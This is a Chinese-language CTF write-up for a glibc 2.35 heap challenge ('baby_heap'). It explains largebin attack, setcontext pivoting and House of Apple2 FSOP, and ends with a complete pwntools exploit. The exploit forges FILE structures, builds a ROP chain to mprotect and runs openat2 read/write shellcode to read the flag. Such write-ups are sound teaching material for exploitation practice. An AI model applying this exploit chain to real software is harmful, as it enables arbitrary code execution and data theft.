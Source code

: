 # baby_heap
这个题目存在一次largebin attack, 还有一个部分地址写(题解没用到)

本次采用的方式是`largebin attack + setcontext + house of apple2`

## largebin attack
本题glibc为2.35,所以`largebin_attack`基本只能修改`victim->bk_nextsize`
其中具体流程如下:
1. 存在一个较大的堆块A已经置于largebin,且整个largebin只有这一个chunk
2. 走正常的堆块流程，使得一个较小的堆块B放置于largebin,这里就会出现较大的`chunkA->bk_nextsize->fd_nextsize = B`
3. 这里存在一个小小的trick或者说一个注意点，那就是当我们从unsortedbin里面获取一个较大的块的时候，比如说unsortedbin里面连接了一个0x521的chunk, 此时我申请获取0x510的快，此时并不会立刻切割，而是先将其中unsortedbin链接的chunk放入largebin(因为这是largebin的范围)当中,然后在largebin当中先寻找是否有恰好适合的堆块，如果没有才将其释放出去，这里的先链接的过程就已经造成了largebin attack(如果你已经将`chunkA->bk_nextsize`修改为target的话),使得`target->fd_nextsize = B`,但是如果B恰好又是即将分配出去的chunk,那么就进一步的会导致`target->fd_nextsize = A`

## setcontext
主要是利用了libc里面的这个函数，在高版本的libc当中是由rdx决定传入的参数，但是本题在`house of apple2`调用setcontex后的rdx竟然直接是`_wide_data`
```gdb
 0x782dc2e53a1d <setcontext+61>:      mov    rsp,QWORD PTR [rdx+0xa0]
 0x782dc2e53a24 <setcontext+68>:      mov    rbx,QWORD PTR [rdx+0x80]
 0x782dc2e53a2b <setcontext+75>:      mov    rbp,QWORD PTR [rdx+0x78]
 0x782dc2e53a2f <setcontext+79>:      mov    r12,QWORD PTR [rdx+0x48]
 0x782dc2e53a33 <setcontext+83>:      mov    r13,QWORD PTR [rdx+0x50]
```
## house of apple2
本题的重点，利用条件如下：
1. 能从main返回，或执行exit
2. 能泄露heap和libc地址
3. 能使用一次largebin attack

本次需要伪造的重点在于`struct _IO_wide_data`,
```c
/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;    /* Current read pointer */
  wchar_t *_IO_read_end;    /* End of get area. */
  wchar_t *_IO_read_base;    /* Start of putback+get area. */
  wchar_t *_IO_write_base;    /* Start of put area. */
  wchar_t *_IO_write_ptr;    /* Current put pointer. */
  wchar_t *_IO_write_end;    /* End of put area. */
  wchar_t *_IO_buf_base;    /* Start of reserve area. */
  wchar_t *_IO_buf_end;        /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;    /* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;    /* Pointer to first valid character of
                   backup area */
  wchar_t *_IO_save_end;    /* Pointer to end of non-current get area. */
  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;
  wchar_t _shortbuf[1];
  const struct _IO_jump_t *_wide_vtable;
};
```
其中的`_wide_vtable`这个函数表是不会检查是否处于指定section内，因此可以在堆上面构造这样一个表

同样我们也需要构造`struct _IO_FILE`结构体,这个结构体中就有上述的`struct _IO_wide_data`这样的字段，同样将该字段伪造在堆上面
而由于

> 1. _flags设置为~(2 | 0x8 | 0x800)，如果不需要控制rdi，设置为0即可；如果需要获得shell，可设置为 sh;，注意前面有两个空格
2. vtable设置为`_IO_wfile_jumps/_IO_wfile_jumps_mmap/_IO_wfile_jumps_maybe_mmap`地址（加减偏移），使其能成功调用`_IO_wfile_overflow`即可
3. `_wide_data`设置为可控堆地址A，即满足*(fp + 0xa0) = A
4. `_wide_data->_IO_write_base`设置为0，即满足*(A + 0x18) = 0
5. `_wide_data->_IO_buf_base`设置为0，即满足*(A + 0x30) = 0
6. `_wide_data->_wide_vtable`设置为可控堆地址B，即满足*(A + 0xe0) = B
7. `_wide_data->_wide_vtable->doallocate`设置为地址C用于劫持RIP，即满足*(B + 0x68) = C

调用链条如下
> _IO_wfile_overflow
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)


这里记录一个比较有趣的gadget,就是libc里面的`svcudp_reply`
```
    0x751f46b4951a <svcudp_reply+26>:    mov    rbp,QWORD PTR [rdi+0x48]
    0x751f46b4951e <svcudp_reply+30>:    mov    rax,QWORD PTR [rbp+0x18]
    0x751f46b49522 <svcudp_reply+34>:    lea    r13,[rbp+0x10]
    0x751f46b49526 <svcudp_reply+38>:    mov    DWORD PTR [rbp+0x10],0x0
    0x751f46b4952d <svcudp_reply+45>:    mov    rdi,r13
    0x751f46b49530 <svcudp_reply+48>:    call   QWORD PTR [rax+0x28]
```

题目由于设置了seccomp,因此使用`openat2`来进行orw



整个题目的exp如下
```python
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
context.terminal = ['tmux','splitw','-h']

def slog(name, address): print("\033[40;34m[+]\033[40;35m" + name + "==>" +hex(address) + "\033[0m")

def debug(cmd = 0):
    if cmd == 0:
        gdb.attach(io)
    else:
        gdb.attach(io, cmd)

s   = lambda content : io.send(content)
sl  = lambda content : io.sendline(content)
sa  = lambda content,send : io.sendafter(content, send)
sla = lambda content,send : io.sendlineafter(content, send)
rc  = lambda number : io.recv(number)
ru  = lambda content : io.recvuntil(content)
rcl = lambda : io.recvline()

def add(size):
    sla("choice: \n", "1")
    sla("size \n", str(size))


def delete(index):
    sla("choice: \n", "2")
    sla("delete: \n", str(index))


def edit(index, content):
    sla("choice: \n", "3")
    sla("edit: \n", str(index))
    sa("content \n", content)


def show(index):
    sla("choice: \n", "4")
    sla("show: \n", str(index))

def secret(choice):
    sla("choice: \n", "5")
    sla("sad !\n", str(choice))

def secret_shop(addr, overwrite):
    sla("choice: \n", "6")
    sa("addr \n", p64(addr))
    sl(p64(overwrite))

io = process("./pwn")
#io = remote("59.110.159.153",20634)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

########## leak libc heap_base ############

secret(2)


add(0x520) #1
add(0x500) #2
add(0x510) #3
delete(1)
add(0x568) #4
delete(3)
show(1)
ru("here \n")
libc.addr = u64(rc(8)) - 0x21b110
slog("libc_base", libc.addr)
rc(8)
heap_base = u64(rc(8)) - 0x1950
fake_IO_addr = heap_base + 0x1950
slog("heap_base", heap_base)
############# house of cat #################

IO_list_all = libc.symbols['_IO_list_all'] + libc.addr
setcontext = libc.symbols["setcontext"] + libc.addr + 61
IO_wfile_jumps = libc.addr + 0x216f40
lock = heap_base + 0x3000

ret = libc.addr + 0x467c9
pop_rdi = libc.addr + 0x2a3e5
pop_rsi = libc.addr + 0x2be51
pop_rdx_r12 = libc.addr + 0x11f2e7
pop_rax = libc.addr + 0x45eb0
mprotect = libc.addr + libc.symbols['mprotect']

slog("_IO_list_all", IO_list_all)
slog("_IO_wfile_jumps", IO_wfile_jumps)
slog("fake_io_addr", fake_IO_addr)
slog("setcontext",setcontext)

payload  = b''
# fake io_list_all
payload += p64(0)*3 + p64(IO_list_all - 0x20)
payload += p64(0) + p64(0)*2 + p64(fake_IO_addr + 0x10)
payload += p64(0)*4
payload += p64(0)*3 + p64(lock)
payload += p64(0)*2 + p64(fake_IO_addr+0xe0) + p64(0)
payload += p64(0)*4
payload += p64(0) + p64(IO_wfile_jumps)
# fake wide_data
payload += p64(setcontext)
payload += p64(0)*(0x1b - 8)
payload += p64(heap_base + 0x1b18) + p64(ret) + p64(0)*6
payload += p64(heap_base + 0x1a30 - 0x68)   # wide_vtable
payload += p64(pop_rdi) + p64(heap_base >> 12 << 12) + p64(pop_rsi)
payload += p64(0x2000) + p64(pop_rdx_r12) + p64(7)*2 + p64(mprotect) + p64(heap_base + 0x1b60)
payload += asm(f'mov rax, 0x67616c66; push rax; push rsp; pop rsi; mov rdi, -0x64; mov rax, 437; mov rdx, {lock}; mov r10, 0x18; syscall;')
payload += asm(shellcraft.read(3, lock, 0x100) + shellcraft.write(1, lock, 0x100))

edit(1, payload)
#debug("b *$rebase(0x1ea7)")
#secret_shop(heap_base + 0x1f3110,io_list_all_addr-0x20)
add(0x500) #5 no precise
sla("choice: \n", str(3))
io.interactive()
```



